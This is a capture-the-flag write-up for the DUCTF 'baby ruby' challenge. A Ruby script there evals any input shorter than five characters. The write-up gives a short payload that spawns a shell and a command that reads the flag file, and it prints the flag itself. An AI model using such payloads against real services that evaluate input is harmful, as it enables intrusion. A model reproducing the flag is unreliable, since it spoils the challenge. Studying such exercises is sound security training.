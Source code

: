# baby ruby
> How well do you know your Ruby?

> The flag is at /chal/flag.

## About the Challenge
We got a server to connect and also the source code, here is the content of `ruby.rb`

```ruby
#!/usr/bin/env ruby

while input = STDIN.gets.chomp do eval input if input.size < 5 end
```

The length of the payload must < 5 and if the length of our input is under 5 characters, the code will execute our input

## How to Solve?
Because there is no filter in the code, we can spawn a shell by inputting

```
`sh`
```

And because of we can't use `cat` command. We can use this command to obtain the flag

```
sh < /chal/flag
```

So, when you run `sh < /chal/flag`, it instructs the sh shell to take the contents of the `/chal/flag` file and use it as input for shell commands

![flag](images/flag.png)

```
DUCTF{how_to_pwn_ruby_in_four_easy_steps}
```